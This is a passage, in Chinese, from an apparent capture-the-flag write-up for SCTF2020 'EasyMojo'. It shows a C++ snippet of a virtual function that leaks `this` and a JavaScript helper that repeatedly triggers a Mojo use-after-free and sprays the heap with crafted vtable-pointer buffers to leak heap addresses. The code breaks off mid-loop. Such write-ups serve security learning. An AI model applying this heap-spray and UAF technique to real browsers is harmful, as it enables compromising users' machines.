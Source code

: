 泄露`this`的虚函数的形式如下：

```c++
void VirtualFunction() override {
    some_member_ = other_member_.some_attr;
}
```

最终找到一个合适的虚函数`DictionaryIterator::Start`

![image-20200707200526109](SCTF2020-EasyMojo.assets/image-20200707200526109.png)

可以泄露可控的堆地址之后，可以将对应的操作封装起来：

```js
async function allocReadable(allocData=new ArrayBuffer(0)) {
    while(true){
        let data = new ArrayBuffer(kMojoBufferSize);
        let view = new DataView(data);

        let allocView = new DataView(allocData);
        let dataOffset = kMojoBufferSize - allocData.byteLength;
        for (var i = 0; i < allocData.byteLength; i++) {
            view.setUint8(dataOffset + i, allocView.getUint8(i));
        }
        view.setBigUint64(0, kGetWakeLockContextVptr, true);
        await uaf.alloc();
        await uaf.free();
        let heap = await spray(data);
        await uaf.trigger();
        results = await Promise.all(heap.map((a) => a.readQword(kWakeLockContextOffset)));
        let allocation;
        let wakeLockContextAddr;
        for (var i = 0; i < results.length; i++) {
            if (results[i] != 0) {
                wakeLockContextAddr = results[i];
                allocation = heap[i];
            }
        }
        if (wakeLockContextAddr == undefined) {
            print("\t[!] stage1 failed");
            continue;
        }
        print("\t[*] AllocReadable stage1 success 0x"+wakeLockContextAddr.toString(16));

        let MojobufPtrAddr = wakeLockContextAddr + BigInt(kWebContentsOffset);
        let bufferleak
        while(true){
            data = new ArrayBuffer(kMojoBufferSize);
            view = new DataView(data);
            view.setBigUint64(0, kLeakPtrContentVptr, true);
            view.setBigUint64(0x20, MojobufPtrAddr - 0x28n, true);
            await uaf.alloc();
            await uaf.free();
            let heap2 = await spray(data);
            await uaf.trigger();
            results = await Promise.all(heap2.map((a) => a.readQword(kBufferLeakOffset)));
            for (var i = 0; i < results.length; i++) {
                if (results[i] != 0) {
                    bufferleak = results[i];
```